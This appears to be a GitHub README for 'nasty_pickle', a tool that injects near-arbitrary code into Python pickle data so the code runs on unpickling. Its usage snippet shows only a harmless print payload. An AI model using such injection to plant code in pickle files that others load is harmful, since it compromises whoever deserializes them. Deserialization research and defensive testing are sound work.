 # nasty_pickle
Some nasty code to inject pickles with (almost) arbitrary code

### Usage

```
from nasty_pickle import patch_pickle_bytes

def my_bomb():
    print('kek')
    
pickle_payload = ...
payload_that_will_print_kek_on_unpickling = patch_pickle_bytes(pickle_payload, my_bomb)
```

`my_bomb` can contain any code that is convertible to oneliner, so no ifs, loops, exception handling and so on. 
And don't forget to include necessary imports